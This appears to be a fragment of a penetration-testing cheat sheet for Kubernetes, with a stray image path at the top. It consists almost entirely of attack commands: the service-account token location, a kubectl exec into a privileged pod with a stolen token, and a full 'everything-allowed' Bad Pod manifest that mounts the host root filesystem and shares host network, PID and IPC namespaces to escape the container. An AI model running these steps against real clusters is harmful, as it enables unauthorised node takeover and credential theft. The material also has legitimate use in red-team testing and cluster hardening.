 ```c
$ kubectl exec -it everything-allowed-exec-pod --token=<TOKEN> -- /bin/bash    // execute privileged container
```

### Secret Location

```c
/var/run/secrets/kubernetes.io/serviceaccount/token
```

### Bad Pod Container Escape

> https://github.com/BishopFox/badPods/blob/main/manifests/everything-allowed/pod/everything-allowed-exec-pod.yaml

> https://jsonformatter.org/yaml-formatter

```c
$ export token="<TOKEN>"
```

```c
cat << 'EOF' |
apiVersion: v1
kind: Pod
metadata:
  name: everything-allowed-exec-pod
  labels:
    app: pentest
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: everything-allowed-pod
    image: ubuntu
    imagePullPolicy: IfNotPresent
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: noderoot
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
  #nodeName: k8s-control-plane-node # Force your pod to run on the control-plane node by uncommenting this line and changing to a control-plane node name
  volumes:
  - name: noderoot
    hostPath:
      path: /
EOF
(export NAMESPACE=default && ./kubectl apply -n $NAMESPACE -f - --token=$TOKEN)
```
